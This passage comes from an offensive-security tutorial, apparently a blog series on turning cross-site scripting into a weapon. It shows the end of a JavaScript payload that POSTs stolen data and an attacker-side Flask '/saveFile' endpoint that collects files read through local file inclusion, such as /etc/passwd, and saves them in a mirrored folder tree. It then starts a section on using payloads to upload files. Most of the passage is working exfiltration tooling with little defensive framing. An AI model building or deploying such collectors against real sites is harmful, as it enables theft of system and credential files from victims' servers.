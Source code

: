 ```
            "Content-Type": "application/x-www-form-urlencoded"
        },
        method: "POST"
    })
}

grabLFIData()
```
<br>
<h3>Server for LFI</h3>
Now we have a file extractor with LFI. Need to update our server so we can grab and save the collected file:
<br>
```
@app.route("/saveFile", methods=['POST'])
def saveFile():
    separator = "/"
    mainFolder = "./LFIFiles"
    fileContent = request.form["fileContent"]
    fileName = request.form["fileName"]
    if fileName.startswith("/"):
        separator = ""
    fullPathFileName = mainFolder + separator + fileName
    filePath = '/'.join(fileName.split('/')[0:-1])
    storageFolder = mainFolder + separator + filePath
    if not os.path.exists(storageFolder):
        os.makedirs(storageFolder)
    f = open(fullPathFileName, "a")
    f.write(fileContent)
    f.write("\n")
    f.close()
    return ""
```
<br>
Starting off with the separator. It is there just to ensure that we can have the file path as  etc/passwd or /etc/passwd the result would be the same. Then we extract two parameters. One is the file content and one is the name of the file. Then we concatenate the main folder  with the filename. With this, we will have a nice structure from the downloaded files.<br>
Example: /etc/passwd will go to the folder ./LFIFiles/etc/passwd. A little bit later check if the folder structure exists and if not create it. Create/open the file and write the content there.
After executing the script, we will have a file in the desired directory.

![](/img/OffensiveXSS2/result2.PNG)
<br>
<h2>File Upload</h2>
Sometimes You need to upload a file. First we should do it in the simplest way:
- Exploit by hand
- grab the working request
- implement it in our payload.
